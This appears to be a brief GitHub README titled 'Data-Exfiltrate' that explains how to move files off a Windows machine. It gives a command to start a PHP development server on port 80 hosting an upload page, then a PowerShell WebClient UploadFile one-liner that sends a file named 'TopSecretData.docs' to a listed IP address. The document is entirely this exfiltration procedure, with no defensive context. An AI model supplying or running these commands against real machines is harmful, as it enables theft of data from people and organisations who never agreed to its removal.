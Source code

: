 # Data-Exfiltrate
Using PHP upload page and Windows PowerShell to exfiltrate data

In directory where the upload.php file is hosted, start PHP development server on port 80.
```
php -S 0.0.0.0:80
```
On the source windows machine with the data files you want to upload execute the following powershell command to send the destination URL the source file path and name.
```powershell
powershell $(New-Object System.Net.WebClient).UploadFile('http://192.168.255.37/upload.php', 'C:\users\SkippyPeanut\Downloads\TopSecretData.docs');
```
Data Exfiltration.
